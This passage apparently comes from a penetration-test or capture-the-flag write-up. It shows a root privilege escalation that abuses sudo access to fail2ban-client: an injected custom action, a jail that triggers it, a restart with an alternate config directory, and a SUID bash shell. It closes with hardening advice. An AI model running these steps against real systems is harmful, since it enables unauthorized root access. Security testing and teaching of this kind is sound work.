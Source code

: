 A custom fail2ban action was injected:

```
# /tmp/fail2ban/action.d/custom-start-command.conf
[Definition]
actionstart = /tmp/script

```

A jail was configured to trigger the malicious action:

```
# /tmp/fail2ban/jail.local
[my-custom-jail]
enabled = true
action = custom-start-command

```

A minimal filter definition was added:

```
# /tmp/fail2ban/filter.d/my-custom-jail.conf
[Definition]

```

The service was restarted using `sudo`:

```bash
sudo fail2ban-client -c /tmp/fail2ban/ -v restart

```

Fail2ban started successfully and executed the `actionstart`, giving us a **SUID-root bash binary**:

```bash
/tmp/bash -p

```

This resulted in a **privilege escalation** to **root**.

---

## ✅ Post-Exploitation Outcome

A root shell was achieved via the injected SUID bash binary. From here, persistence, data exfiltration, or lateral movement could be carried out depending on the engagement's scope.

---

## ⚠️ Security Recommendations

- **Restrict sudo access:** Avoid granting `NOPASSWD` privileges to untrusted users.
- **Isolate service users:** The `asterisk` user should not have access to administrative tools like `fail2ban-client`.
- **Audit configuration directories:** Monitor changes to `/etc/fail2ban`, especially custom action definitions.
- **Use AppArmor/SELinux:** Restrict execution permissions for interpreters in non-standard paths.

---